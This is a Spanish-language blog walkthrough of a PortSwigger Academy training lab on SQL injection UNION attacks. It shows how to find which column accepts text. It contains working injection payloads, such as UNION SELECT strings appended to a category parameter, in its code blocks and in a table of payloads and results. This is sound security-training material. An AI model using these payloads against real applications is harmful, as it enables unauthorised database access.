

+++
author = "Alux"
title = "Portswigger Academy Learning Path: SQL Injection Lab 4"
date = "2021-11-04"
description = "Lab: SQL injection UNION attack, finding a column containing text"
tags = [
    "sqli",
    "portswigger",
    "academy",
    "burpsuite",
]
categories = [
    "pentest web",
]
series = ["Portswigger Labs"]
image = "head.png"
+++

# Lab: SQL injection UNION attack, finding a column containing text

En este <cite>laboratorio[^1]</cite>la finalidad es saber el tipo de datos que es utilizado en los valores que son enviadas en la consulta, ya que es necesario saber que tipo de valor son para que el sistema no genere errores al momento de extraeros, utilizaremos la informacion anterior primero enumerando el numero de columnas, y al hacer el reconocimiento sabemos que cuenta con 3 columnas ya que es la unica que no genera un error.

```sql
Pets' UNION SELECT NULL,NULL,NULL--
```

## Reconocimiento

Ingresamos a la web y al acceder en mi caso me pide que imprima el valor `mO7mSy` al recuperar los datos, asi que buscaremos que valores aceptan string para poder imprimirlo

### Payloads

   Payload | Resultado
--------|------
  Pets' UNION SELECT 'test',NULL,NULL-- | **Muestra error**
  Pets' UNION SELECT NULL,'test',NULL-- | Imprime resultados normalmente
  Pets' UNION SELECT NULL,NULL,'test'-- | **Muestra error**

Nos podemos dar cuenta que la columna dos permite que se puedan ingresar datos de tipo string ahora toca ingresar la cadena que nos indican para poder resolver el lab, inyectando la consulta sql:

```sql
Pets' UNION SELECT NULL,'mO7mSy',NULL--
```




[^1]: [Laboratorio](https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text)